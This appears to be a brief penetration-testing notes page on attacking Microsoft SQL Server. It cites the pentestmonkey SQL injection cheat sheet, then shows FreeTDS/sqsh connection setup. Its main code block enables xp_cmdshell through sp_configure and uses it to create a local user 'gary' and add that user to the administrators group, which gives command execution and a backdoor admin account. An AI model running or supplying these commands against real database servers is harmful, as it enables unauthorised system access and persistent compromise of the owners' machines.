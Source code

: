http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet



```
exec sp_configure 'show advanced options', 1
go
reconfigure
go
exec sp_configure 'xp_cmdshell', 1
go
reconfigure
go
xp_cmdshell "net user gary password /add"
go
xp_cmdshell "net localgroup administrators gary /add"
go
```


### FreeTDS Config

> vim /etc/freetds/freetds.conf

Add following:

```
 [HOSTNAME]
          host=10.10.10.10
          port=9999
          tds version = 7.0
```

Connect:

> sqsh -S HOSTNAME
